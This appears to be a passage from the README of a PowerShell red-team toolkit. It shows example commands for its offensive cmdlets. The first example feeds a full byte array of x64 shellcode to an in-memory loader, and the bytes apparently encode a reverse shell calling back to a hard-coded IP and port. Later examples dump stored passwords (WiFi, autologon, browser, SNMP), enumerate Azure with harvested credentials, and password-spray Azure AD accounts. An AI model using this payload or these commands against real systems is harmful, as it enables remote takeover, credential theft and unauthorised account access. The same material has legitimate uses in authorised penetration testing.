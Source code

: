 ```powershell
C:\PS> Invoke-InMemoryPayload -Payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xc0,0xa8,0x89,0x81,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5 -Verbose
```
![Invoke-InMemoryPayload Image](https://raw.githubusercontent.com/tobor88/PowerShell-Red-Team/master/InvokeInMemPayloadImg.png)

- Get-ClearTextPassword is used to obtain cached passwords, SNMP passwords in the registry, auto logon passwords, and WiFi passwords that are stored on a device. Only the current users passwords are able to be pulled from saved locations
```powershell
Get-ClearTextPassword -All
```

The above command returns all the possible results the cmdlet is capable of. Individual locations can be searched as well.
For Example
```powershell
Get-ClearTextPassword -AutoLogon
```

More than one location can be defined in your search
For Example
```powershell
Get-ClearTextPassword -WiFi -SNMP -Chrome -PasswordVault
```

- Invoke-AzureEnum.ps1 can be used to utilize Azure credentials for Azure enumeration saving the results to a file
```powershell
Invoke-AzureEnum.ps1 -Path 'C:\Temp\enum.txt'
```

- Invoke-AzurePasswordSpray can be used to perform a password dictionary attack against a single user or multiple users while testing credentials against Azure AD.
```powershell
Invoke-AzurePasswordSpray -UserName "rob@domain.com","john@domain.com" -Passwd 'Password123!','asdf123!'
# This Example tests the passwords defined against the list of usernames defined

Invoke-AzurePasswordSpray -UserName "rob@domain.com","john@domain.com" -Passwd 'Password123!','asdf123!' -SleepSeconds 60
# This Example tests the passwords defined against the list of usernames defined with a 60 second wait before the next sign in attempt

Invoke-AzurePasswordSpray -UserName "rob@domain.com","john@domain.com" -Passwd 'Password123!','asdf123!' -SleepSeconds 60 -RoundRobin
```